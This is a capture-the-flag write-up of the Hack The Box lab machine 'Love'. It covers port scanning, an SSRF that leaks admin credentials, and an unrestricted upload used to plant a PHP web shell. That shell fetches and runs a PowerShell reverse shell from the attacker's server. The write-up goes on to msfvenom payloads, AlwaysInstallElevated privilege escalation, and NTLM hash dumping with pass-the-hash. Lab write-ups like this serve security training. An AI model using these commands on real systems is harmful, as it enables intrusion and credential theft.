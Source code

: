 ![](love_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

__IP-ADDR:__ 10.10.10.239 love.htb

__nmap scan:__
```bash
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq: 
|_    Host '10.10.15.71' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_ssl-date: 2021-06-25T08:37:23+00:00; -5h04m42s from scanner time.
| tls-alpn: 
|_  http/1.1
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized
```

* Information leak from https ssl certificate. 
  * __Subdomain:__ `staging.love.htb` 
  * __Username:__ `roy@love.htb`
* No other subdomain found: `ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -H 'Host: FUZZ.love.htb' -u http://love.htb/ -ac -c -v`
* port `5000` and `443` gives "403 Forbidden"
* Can't connect to SMB without password.

* __Host: `love.htb`__ asking for username:password

  ![](screenshots/love.png)

* __Subdomain `staging.love.htb`__ have signup option which don't go anywhere,

  ![](screenshots/staging-love.png)

but there is a `/beta.php` which allows to fetch urls, and also allows SSRF.

![](screenshots/demo-ssrf.png)

with that we can access to port `5000` and `443` which gives "403 Forbidden", because both are on save host.

port `443` https don't response anything but port `5000` repsonse with admin creds.

![](screenshots/vote-admin-creds.png)
<!--admin:@LoveIsInTheAir!!!!-->

* successful login to `http://love.htb/admin` with found creds. *It was just a guess. If I don't get admin login in `/admin`, than I'll run gobuster.*

# Foothold:file_upload

Found file upload option in `/admin/voters.php` and `/admin/candidates.php`

Try to upload php shell from `/voters.php`
```php
<?php echo exec("whoami"); ?>
```

![](screenshots/file-uploading.png)

and file uploaded successfully without any restrication and upload file found in the `/images` directory

![](screenshots/file-uploaded.png)

![](screenshots/file-executed.png)

Getting reverse shell with [PayloadsAllTheThings powershell payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell) and [nishang revshell ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

Create `shell.php`, which Invoke nishang revshell ps1 script from http server.
```bash
<?php echo exec("powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.71/powerShellTcp.ps1')"); ?>
```

upload `shell.php`, start http server and get reverse shell.

![](screenshots/web-shell.gif)

Get msf shell with msfvenom paylaod
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.71 LPORT=4141 -f psh -o msf_shell.ps1
```

Execute
```bash
IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.71/msf_shell.ps1')
```

# Privesc:AlwaysInstallElevated

Running winpeas found __AlwaysInstallElevated__ enable.

![](screenshots/winpeas.png)

__AlwaysInstallElevated__ If these 2 registers are enabled (value is 0x1), then users of any privilege can install (execute) __`*.msi`__ files as __`NT AUTHORITY\SYSTEM`__.
```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

![](screenshots/always-install.png)

* Exploit from [hacktricks.xyz](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated)
* Multiple ways to exploit from [hackingarticles.in](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/)


__Exploit with metasploit__
```bash
exploit/windows/local/always_install_elevated
```

![](screenshots/love-rooted.png)

__Dump NTLM hash__
```bash
meterpreter > load kiwi
meterpreter > lsa_dump_sam

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: aab42ca009fed69fa5ee57c52cf5bcf1

#login with evil-winrm
evil-winrm -u Administrator -H aab42ca009fed69fa5ee57c52cf5bcf1 -i 10.10.10.239
```
